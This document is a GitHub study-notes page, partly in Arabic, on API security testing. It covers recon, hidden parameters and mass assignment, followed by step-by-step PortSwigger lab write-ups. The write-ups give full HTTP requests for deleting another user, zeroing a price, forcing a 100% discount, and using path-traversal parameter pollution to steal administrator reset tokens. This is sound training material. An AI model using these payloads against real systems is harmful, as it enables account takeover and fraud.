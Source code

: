 


# API testing

- <details>
     <summary>API Recon & documentation</summary>


  # 🛡️ API Testing - شرح مبسط
  
  ## 📌 ما هو **API Testing**؟
  - **API (Application Programming Interface)** هو الوسيط الذي يسمح للبرامج أو السيرفرات بالتواصل مع بعضها.
  - أي موقع ديناميكي (dynamic) يتكون من APIs:
    - مثال: عند تسجيل الدخول **login** → API تستقبل الـ username/password.
    - مثال: عند جلب **profile info** → API تسحب البيانات من قاعدة البيانات وتعيدها في صورة JSON.
  
  ⚠️ إذا كانت الـ API بها ثغرة → هذا قد يؤثر على **Confidentiality, Integrity, Availability (CIA)**.
  
  ---
  
  ## 📌 العلاقة بين Web Testing و API Testing
  - معظم ثغرات الويب (SQLi, XSS, Auth bypass) يمكن أن تظهر في APIs.
  - الفرق أن **API Testing** يكشف أحيانًا Endpoints غير مستخدمة في الواجهة الأمامية (front-end)، لكنها مدعومة على السيرفر → توسع الـ attack surface.
  
  ---
  
  ## 📌 خطوات الـ Recon (استكشاف API)
  
  ### 1. **Identify Endpoints** (تحديد الـ endpoints)
  الـ endpoint هو مكان استقبال الطلبات.
  
  مثال:
  ```http
  GET /api/books HTTP/1.1
  Host: example.com
  ```
  
  - `/api/books` → endpoint  
  - يعيد قائمة من الكتب
  
  مثال آخر:
  - `/api/books/mystery` → يعيد قائمة بكتب الغموض
  
  ---
  
  ### 2. **افهم كيفية التعامل مع الـ API**
  لكي تبدأ اختبار يجب أن تعرف:
  - ✅ الـ input parameters (إجباري / اختياري)  
  - ✅ الـ HTTP methods المدعومة (GET, POST, PUT, DELETE…)  
  - ✅ الـ media formats (JSON, XML)  
  - ✅ هل يوجد Rate limiting (عدد الطلبات المسموح بها)  
  - ✅ آلية Authentication (Token / API Key / JWT)  
  
  ---
  
  ## 📌 API Documentation (التوثيق)
  - **Human-readable**: توثيق مكتوب يشرح الأمثلة والاستخدام.  
  - **Machine-readable**: ملفات JSON/XML (مثل Swagger أو OpenAPI).  
  
  🔍 **أماكن شائعة للتوثيق**:
  - `/api`
  - `/swagger/index.html`
  - `/openapi.json`
  
  مثال: لو وجدت `/api/swagger/v1/users/123`  
  جرب أيضًا:
  - `/api/swagger/v1`  
  - `/api/swagger`  
  - `/api`  
  
  🛠 يمكنك استخدام **Burp Scanner** أو **Intruder** لتجربة common paths.
  
  ---
  
  ## 📌 الخلاصة
  - **API Testing = Web Testing + Hidden attack surface**
  - تبدأ بالـ **Recon**: ابحث عن endpoints + documentation  
  - افهم كيف تعمل الـ API (inputs, methods, auth)  
  - ثم اختبر الثغرات مثل:
    - **SQLi داخل JSON**
    - **Auth bypass بالـ tokens**
    - **Server-side Parameter Pollution (SSPP)**
    - **Excessive Data Exposure** (إرجاع بيانات حساسة/زائدة)
  

  
  </details>





- <details>
     <summary>Interacting with API endpoints</summary>

     
     
     # 🛡️ API Testing 
     
     ## 1️⃣ Machine-readable Documentation (التوثيق القابل للمعالجة آليًا)
     - أحيانًا بتلاقي توثيق API في شكل **JSON / YAML** (زي Swagger أو OpenAPI).  
     - تقدر تستخدم Tools عشان تحللها أو تختبر الـ endpoints مباشرة.  
     
     🛠 الأدوات:
     - **Burp Scanner** → يقرأ OpenAPI docs ويعمل crawl & audit  
     - **OpenAPI Parser BApp** → تحليل OpenAPI داخل Burp Suite  
     - **Postman / SoapUI** → لاختبار الـ endpoints يدويًا أو أوتوماتيك  
     
     ---
     
     ## 2️⃣ Identifying API Endpoints (تحديد الـ endpoints)
     - حتى لو عندك documentation، لازم تراجع التطبيق بنفسك:  
       - ساعات الـ documentation قديمة أو ناقصة  
       - من خلال التطبيق نفسه ممكن تلاقي endpoints غير مذكورة  
     
     👀 أماكن محتملة للـ Endpoints:
     - **/api/** في الـ URLs  
     - **JavaScript files** → ممكن تحتوي API calls مخفية  
     - **Burp Scanner** → يلتقط بعض الـ endpoints  
     - **JS Link Finder BApp** → استخراج أعمق من ملفات JS  
     
     ---
     
     ## 3️⃣ Interacting with Endpoints (التفاعل مع الـ endpoints)
     - استخدم الأدوات:  
       - **Burp Repeater** → تجربة يدوية  
       - **Burp Intruder** → تجربة أوتوماتيكية  
     
     💡 جرب تغيّر:
     - **HTTP method** (GET, POST, PUT…)  
     - **Media type** (JSON, XML…)  
     - راقب **error messages** → ممكن تكشف تفاصيل عن الباك اند أو باراميترات إضافية  
     
     ---
     
     ## 4️⃣ Identifying Supported HTTP Methods
     - الـ **HTTP Method** يحدد نوع العملية:  
       - `GET` → جلب البيانات  
       - `PATCH` → تعديل جزئي  
       - `OPTIONS` → يكشف الـ methods المدعومة  
     
     👨‍💻 مثال على endpoint:
     ```
     GET /api/tasks        → يرجع قائمة المهام  
     POST /api/tasks       → ينشئ مهمة جديدة  
     DELETE /api/tasks/1   → يحذف مهمة برقم 1  
     ```
     
     🛠 Burp Intruder:
     - يحتوي على قائمة HTTP verbs جاهزة  
     - جربها تلقائيًا على endpoint لكشف methods إضافية  
     
     ⚠️ مهم: جرب على بيانات **قليلة الأهمية (low-priority)** لتجنب كسر أو تغيير بيانات production  
     
     ---
     
     ## 5️⃣ Identifying Supported Content Types (أنواع المحتوى)
     - الـ API غالبًا بتتوقع نوع محتوى محدد مثل `application/json`  
     - تغيير الـ Content-Type ممكن يفتح هجوم جديد  
     
     👀 الفوائد:
     - Trigger أخطاء تكشف معلومات  
     - Bypass دفاعات ضعيفة  
     - استغلال اختلاف المعالجة (مثال: آمن مع JSON لكن ضعيف مع XML)  
     
     🛠 Burp:
     - غيّر Header:
       ```http
       Content-Type: application/xml
       ```
     - وحوّل الـ body من JSON إلى XML  
     - **Content Type Converter BApp** يساعد في التحويل التلقائي بين JSON ↔ XML  
     
     ---
     
     ## 📌 الخلاصة
     - 📑 لو لقيت **Machine-readable docs** → حللها بالأدوات (Burp Scanner, Postman)  
     - 🔍 حتى مع docs → دايمًا اعمل Recon يدوي (URLs + JS files)  
     - 🎯 جرّب تتفاعل مع endpoints (HTTP methods, Content types)  
     - ⚡ الهدف: اكتشاف وظائف إضافية + ثغرات (SQLi, Auth bypass, Injection …)
     



     
  </details>





- <details>
     <summary>Mass assignment vulnerabilities</summary>



     
     
     
     # API Recon and Mass Assignment Vulnerabilities
     
     ## Using Intruder to Find Hidden Endpoints
     Once you have identified some initial API endpoints, you can use **Burp Intruder** to uncover hidden endpoints.
     
     **Example:**
     ```
     PUT /api/user/update
     ```
     
     You can test for hidden endpoints by replacing `/update` with common words like `delete`, `add`, etc., using a **wordlist**.
     
     👉 Use wordlists based on:
     - Common API naming conventions.
     - Industry terms.
     - Application-specific terms (from recon).
     
     ---
     
     ## Finding Hidden Parameters
     During API recon, you may find undocumented parameters that can affect application behavior.
     
     ### Tools to Help:
     - **Burp Intruder** → use a wordlist of common parameters.
     - **Param Miner BApp** → can guess up to 65,536 parameters automatically.
     - **Content Discovery Tool** → finds hidden/unlinked parameters.
     
     ---
     
     ## Mass Assignment Vulnerabilities
     Mass assignment (auto-binding) happens when frameworks automatically bind request parameters to internal object fields.
     
     This may expose unintended hidden parameters.
     
     ### Identifying Hidden Parameters
     You can often spot hidden parameters by analyzing API responses.
     
     **Example:**
     ```
     PATCH /api/users/
     {
         "username": "wiener",
         "email": "wiener@example.com"
     }
     ```
     
     A concurrent response from:
     ```
     GET /api/users/123
     {
         "id": 123,
         "name": "John Doe",
         "email": "john@example.com",
         "isAdmin": "false"
     }
     ```
     
     This hints that `id` and `isAdmin` may be hidden parameters.
     
     ---
     
     ## Testing for Mass Assignment
     Try modifying hidden parameters in requests.
     
     ### Test 1 - Normal update with hidden parameter:
     ```
     {
         "username": "wiener",
         "email": "wiener@example.com",
         "isAdmin": false
     }
     ```
     
     ### Test 2 - Invalid value for hidden parameter:
     ```
     {
         "username": "wiener",
         "email": "wiener@example.com",
         "isAdmin": "foo"
     }
     ```
     
     If behavior changes → parameter is being processed.
     
     ### Exploitation - Privilege Escalation:
     ```
     {
         "username": "wiener",
         "email": "wiener@example.com",
         "isAdmin": true
     }
     ```
     
     If bound without validation, the user may gain **admin privileges**.
     
     ---
     
     ## Key Takeaways
     - Intruder helps find hidden endpoints.
     - Param Miner & Intruder can find hidden parameters.
     - Mass assignment can expose sensitive parameters like `isAdmin`.
     - Always test with valid and invalid values to confirm vulnerability.
     
     





  </details>






- <details>
     <summary>Server-side parameter pollution</summary>


     <details>
     
     <img width="774" height="277" alt="image" src="https://github.com/user-attachments/assets/31406ab2-46e6-4171-b439-aa876d551c18" />
     
     <img width="842" height="373" alt="image" src="https://github.com/user-attachments/assets/db2fecd5-b365-4f6f-a7fe-e4aee42fecff" />
     
     <img width="744" height="612" alt="image" src="https://github.com/user-attachments/assets/422a0a92-6a6d-4b69-abcf-c78378bdc83b" />
     
     <img width="766" height="406" alt="image" src="https://github.com/user-attachments/assets/efa52df2-a6fc-48e4-ba92-076bcb6d872d" />
     
     <img width="762" height="410" alt="image" src="https://github.com/user-attachments/assets/c938e7c5-7897-4f86-a968-4528db4c3952" />
     
     <img width="772" height="596" alt="image" src="https://github.com/user-attachments/assets/fc0ae5b7-7f91-4276-91a6-966fb87993ef" />
     
     <img width="697" height="661" alt="image" src="https://github.com/user-attachments/assets/2985f930-0f96-41c0-8763-f5cd4a8277e8" />
     
     
          
     </details>
     
     
     
     





     
</details>


















































































----




# **`API Testing Labs`**


<details>
     <summary>Lab: Exploiting an API endpoint using documentation</summary>

#### 1. login with **`wiener : peter`**
#### 2. try to update your email and intercept the request

```http
PATCH /api/user/wiener HTTP/1.1
Host: 0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Cookie: session=vW7MD6H4rzuStWRQySgwcgcxMJiD8Rkk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 28
Origin: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive


{
  "email":"user@EXAMPLE.com"
}
```

**`Response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 48


{
  "username":"wiener",
  "email":"user@EXAMPLE.com"
}
```

---

> ## what if we change user


```http
PATCH /api/user/carlos HTTP/1.1
Host: 0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Cookie: session=vW7MD6H4rzuStWRQySgwcgcxMJiD8Rkk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 28
Origin: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive


{
  "email":"plapla@EXAMPLE.com"
}
```

**`Response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 48


{
  "username":"carlos",
  "email":"plapla@EXAMPLE.com"
}
```


> ## now try to change method from **`patch`** to **`DELETE`**

```http
DELETE /api/user/carlos HTTP/2
Host: 0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Cookie: session=vW7MD6H4rzuStWRQySgwcgcxMJiD8Rkk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 28
Origin: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers


{
  "email":"user@EXAMPLE.com"
}
```

**`Response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 48


{
  "status":"user deleted"
}
```


> ## if we set path to **`/api`**

<img width="952" height="699" alt="image" src="https://github.com/user-attachments/assets/49f6beef-4bee-4ed1-a971-259b69a08f35" />


     
</details>




<details>
     <summary>Lab: Finding and exploiting an unused API endpoint</summary>

> 1. login as **`wiener : peter`**
> 2. select product and see the request


```http
GET /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

```


### **`response`**


```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 97


{
  "price":"$1337",
  "message":"Buy quick, we are low on stock! 4 purchased in the last 14 minutes!"
}
```

---

> ## first try **`OPTIONS`** header to see which methods are allowed


```http
OPTIONS /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

```


### **`response`**


```http
HTTP/2 405 Method Not Allowed
Allow: GET, PATCH
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Method Not Allowed"
```

> ## found that **`GET, PATCH`** only allowd
> - now change method to **``PATCH``**


```
```http
PATCH /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

```

### **`response`**

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 93


{
  "type":"ClientError",
  "code":400,
  "error":"Only 'application/json' Content-Type is supported"
}
```

> ## we found that content type must be json we will add this header
> - **`Content-Type: application/json`**
> - add json content with new price

```http
PATCH /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
Content-Type: application/json;

{
  "price":0
}


```

<img width="1434" height="540" alt="image" src="https://github.com/user-attachments/assets/bc003da5-54f5-49db-8f06-713ecb5022a1" />




     
</details>





<details>
     <summary>Lab: Exploiting a mass assignment vulnerability</summary>



> ### login with **`weiner : peter`**
> - select product and add it to cart
> - go to cart
> - see the requests

```http
GET /api/checkout HTTP/2
Host: 0ae7002004807898805f0da700d00007.web-security-academy.net
Cookie: session=SBR2e8LB8O2ZGiIREmLK2HR0S0aGCHsc
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae7002004807898805f0da700d00007.web-security-academy.net/cart
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
```

### **`response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 153


{
   "chosen_discount":{
       "percentage":0
   },"chosen_products":[
      {
          "product_id":"1",
          "name":"Lightweight \"l33t\" Leather Jacket",
          "quantity":1,"item_price":133700
      }
  ]
}
```

----

> ## first set method to **`options`** to see which methods are allowed


```http
OPTIONS /api/checkout HTTP/2
Host: 0ae7002004807898805f0da700d00007.web-security-academy.net
Cookie: session=SBR2e8LB8O2ZGiIREmLK2HR0S0aGCHsc
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae7002004807898805f0da700d00007.web-security-academy.net/cart
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
```

### **`response`**

```http
HTTP/2 405 Method Not Allowed
Allow: POST, GET
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20


"Method Not Allowed"
```

---

> ## Good now we can use **`post`** method to update **`discount percentage`** to `100``


```http
POST /api/checkout HTTP/2
Host: 0ae7002004807898805f0da700d00007.web-security-academy.net
Cookie: session=SBR2e8LB8O2ZGiIREmLK2HR0S0aGCHsc
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae7002004807898805f0da700d00007.web-security-academy.net/cart
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

{
   "chosen_discount":{
       "percentage":100
   },"chosen_products":[
      {
          "product_id":"1",
          "name":"Lightweight \"l33t\" Leather Jacket",
          "quantity":1,"item_price":133700
      }
  ]
}


```

### **`response`**

```http
HTTP/2 201 Created
Location: /cart/order-confirmation?order-confirmed=true
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```



<img width="1516" height="700" alt="image" src="https://github.com/user-attachments/assets/8252e86b-421f-4c85-885b-8942edf5392c" />

<img width="1346" height="679" alt="image" src="https://github.com/user-attachments/assets/22e73718-d2c2-4d2b-8949-07d1caba2875" />




     
</details>






<details>
     <summary>Lab: Exploiting server-side parameter pollution in a query string</summary>


## try to reset password for user **`wiener`**

<img width="1177" height="402" alt="image" src="https://github.com/user-attachments/assets/31899866-d1d4-4327-91e8-c0df6ae3255c" />


## but we know that there is user called **`administrator`**

<img width="1177" height="395" alt="image" src="https://github.com/user-attachments/assets/ce896ced-71d9-4794-9819-d78602fe4a66" />


## note that there is **`/static/js/forgotPassword.js`** 

<img width="1570" height="686" alt="image" src="https://github.com/user-attachments/assets/e27d8981-09c6-4bfb-b206-dfc052c02b96" />


**`we found in it reset password function`**

```javascript

const displayMsg = (e) => {
    e.preventDefault();
    validateInputsAndCreateMsg(e);
};

forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});

```

> ## so we need **`reset-token`** parameter to reset the password

> ## now go back to **`reset-passowrd`**
> - try to inject **`#`** , **`&`** 

<img width="1169" height="464" alt="image" src="https://github.com/user-attachments/assets/59047886-df85-4aee-a454-0f27412f3bda" />

> ## now i try **`&`** and put **username** parameter to see if it will take the first value or the second

<img width="1163" height="483" alt="image" src="https://github.com/user-attachments/assets/08490d3b-f376-4029-b81e-0ad376416cd5" />

> ## ohh it take the second value

> ## now i will encode **`&`** and try to put any prameter maybe **`a=b`**

<img width="1168" height="430" alt="image" src="https://github.com/user-attachments/assets/074d8e30-26c2-486e-825e-c9ef9d4cc64c" />

> ## **`Parameter is not supported.`** so let's burte force it 

<img width="1610" height="544" alt="image" src="https://github.com/user-attachments/assets/dd518ccd-688e-4b2e-bd70-43e7a5f73180" />

> ## filtered it by length and found that **`feild`** parameter in response say **`Invalid field.`** so we know that there is parameter call **`feild`**
> - lets try to put it's value `username` , `email` , `password`

<img width="1049" height="428" alt="image" src="https://github.com/user-attachments/assets/4513b538-c4ec-4f43-8e61-e6f0c772daa8" />

<img width="1173" height="511" alt="image" src="https://github.com/user-attachments/assets/1801fb9a-f311-43e3-ab7f-bb71e8f94155" />

<img width="1157" height="499" alt="image" src="https://github.com/user-attachments/assets/076935ac-de88-41bf-98de-6f4c43f2bd26" />

> ## so what it we try **`reset-token`** that we need

<img width="1085" height="495" alt="image" src="https://github.com/user-attachments/assets/6ef6dfec-683b-4f80-9c92-8e59b169ee8a" />


```
2y0ykivivnl76kodlyx3adq5qzrp1mn6
```

> ## now

```
/forgot-password?reset_token=2y0ykivivnl76kodlyx3adq5qzrp1mn6
```


<img width="1055" height="680" alt="image" src="https://github.com/user-attachments/assets/658bab92-716d-449f-8710-c1e5909ce3f3" />


> ## now reset password and login as **`adminstrator`**

```
administrator : 123
```

<img width="1295" height="662" alt="image" src="https://github.com/user-attachments/assets/f7c5497c-1bf3-43fa-af17-10108b020d04" />


<img width="1237" height="545" alt="image" src="https://github.com/user-attachments/assets/0daf5a7b-a6db-41a6-a426-3f259a74e361" />



     
</details>








<details>
     <summary>Lab: Exploiting server-side parameter pollution in a REST URL</summary>



## try to reset password for user **`wiener`**

<img width="1177" height="402" alt="image" src="https://github.com/user-attachments/assets/31899866-d1d4-4327-91e8-c0df6ae3255c" />


## but we know that there is user called **`administrator`**

<img width="1272" height="347" alt="image" src="https://github.com/user-attachments/assets/30f29c6c-d34d-4de8-8401-fea9da7ca774" />



## note that there is **`/static/js/forgotPassword.js`** 

<img width="1024" height="581" alt="image" src="https://github.com/user-attachments/assets/e6cc63df-ff55-432a-a08f-ed35a8329b5d" />


```
passwordResetToken
```


> ## now go back to **`reset-passowrd`** request
> - try to inject **`#`** ,**`?`**

<img width="1397" height="469" alt="image" src="https://github.com/user-attachments/assets/ee49a51e-497d-464c-8aad-a9e8d5fb9f32" />

```json
{
  "type": "error",
  "result": "Invalid route. Please refer to the API definition"
}
```

> ## tell us that path is wrong so what if we try **`path traversal`**

```url
csrf=RMb3Ojh0eGcZTHwGXwi2wdfAMovtI3mi&username=../../../../../../../administrator?
```

## **`response`**

```json
{
  "error": "Unexpected response from API server:\n<html>\n<head>\n    <meta charset=\"UTF-8\">\n    <title>Not Found<\/title>\n<\/head>\n<body>\n    <h1>Not found<\/h1>\n    <p>The URL that you requested was not found.<\/p>\n<\/body>\n<\/html>\n"
}
```

> ## ohh found another error 

> ## lets try to know endpoints using **`openapi.json`**


- <details>
      <summary>what is openapi.json</summary>
     
     # Understanding `openapi.json` and Its Role in Attacks
     
     ## 1. ما هو `openapi.json`
     - ملف **`openapi.json`** هو **ملف توثيق للـ API** مكتوب بصيغة **JSON**.
     - يتبع **OpenAPI Specification (OAS)**، وهي مواصفة عالمية لتوثيق واجهات البرمجة (APIs).
     - الهدف منه:
       - شرح **Endpoints** (المسارات) المتاحة في الـ API.
       - توضيح **HTTP methods** المدعومة مثل: GET, POST, DELETE.
       - تحديد **الـ Parameters** المطلوبة مثل query params, body, headers.
       - عرض أنواع البيانات التي يرجعها الـ API.
     
     ### مثال على محتوى `openapi.json`
     ```json
     {
       "openapi": "3.0.0",
       "info": {
         "title": "Library API",
         "version": "1.0.0"
       },
       "paths": {
         "/api/books": {
           "get": {
             "summary": "Get all books",
             "responses": {
               "200": {
                 "description": "A list of books"
               }
             }
           },
           "post": {
             "summary": "Add a new book",
             "responses": {
               "201": {
                 "description": "Book created successfully"
               }
             }
           }
         }
       }
     }
     ```
     
     ### الفائدة للمهاجم:
     - معرفة كل **المسارات السرية** في الـ API.
     - تحديد **المعاملات (parameters)** المطلوبة لكل endpoint.
     - معرفة **أنواع الطلبات** التي يدعمها كل endpoint.
     - هذا يوفر الكثير من وقت **Reconnaissance** وكأنك حصلت على كود المصدر الخاص بالـ API.
     
     ---
     
     ## 2. ليه كتبنا `openapi.json` في الـ Payload
     الـ Payload المستخدم:
     ```
     csrf=RMb3Ojh0eGcZTHwGXwi2wdfAMovtI3mi&username=../../../../../../../openapi.json?
     ```
     
     ### الشرح:
     1. **`../../../../../../../`**
        -  **Path Traversal / Directory Traversal**.
        - الهدف منه الخروج من المجلد الحالي خطوة بخطوة حتى تصل إلى الجذر (`/`) في النظام.
        - بعد ذلك تحاول الوصول إلى ملف حساس مثل `openapi.json`.
     
     2. **`openapi.json`**
        - يمثل ملف توثيق الـ API.
        - استهدافه يمنحك رؤية كاملة لجميع الـ endpoints.
     
     ---
     
     ## 3. الهدف من الهجوم
     - محاولة **قراءة ملف التوثيق الداخلي** الخاص بالـ API.
     - إذا نجحت في الوصول إليه:
       - ستعرف **المسارات المخفية**.
       - ستكشف **المعاملات الحساسة** التي قد تستغلها.
       - ستتمكن من تحديد الثغرات مثل:
         - **IDOR (Insecure Direct Object Reference)**
         - **Privilege Escalation**
         - **SQL Injection**
         - **Mass Assignment**
     
     ---
     
     

  </details>

> # Don't forget **`?`**

```url
csrf=RMb3Ojh0eGcZTHwGXwi2wdfAMovtI3mi&username=../../../../../../../openapi.json?
```

## `response`


```json
{
  "error": "Unexpected response from API server:\n{\n  \"openapi\": \"3.0.0\",\n  \"info\": {\n    \"title\": \"User API\",\n    \"version\": \"2.0.0\"\n  },\n  \"paths\": {\n    \"/api/internal/v1/users/{username}/field/{field}\": {\n      \"get\": {\n        \"tags\": [\n          \"users\"\n        ],\n        \"summary\": \"Find user by username\",\n        \"description\": \"API Version 1\",\n        \"parameters\": [\n          {\n            \"name\": \"username\",\n            \"in\": \"path\",\n            \"description\": \"Username\",\n            \"required\": true,\n            \"schema\": {\n        ..."
}
```

> ## we found that path

```url
/api/internal/v1/users/{username}/field/{field}
```

> ## let's try it with :
> - username : `administrator`
> - field : `email` , `username` , `password`

<img width="1329" height="418" alt="image" src="https://github.com/user-attachments/assets/47218c7c-ebd1-46d5-a767-0d086f9e769f" />

<img width="1144" height="439" alt="image" src="https://github.com/user-attachments/assets/f585aefd-1f24-4ad0-a874-32d9beca3900" />

<img width="1404" height="460" alt="image" src="https://github.com/user-attachments/assets/dda97963-95f3-415e-9db8-4417d6a04ef6" />


> ## now let's try **`passwordResetToken`** that we need

<img width="1249" height="506" alt="image" src="https://github.com/user-attachments/assets/1519289f-4c12-4735-ac3a-b5fb5bdedbd5" />


```
yummwyxyh4cibvzdp5g92ctc95a4obz5
```

> ## now reset password and login and remove carlos


````
/forgot-password?passwordResetToken=yummwyxyh4cibvzdp5g92ctc95a4obz5
````

<img width="1261" height="554" alt="image" src="https://github.com/user-attachments/assets/4edb02d7-d126-478c-87a6-6ace498ccab1" />



     
</details>


















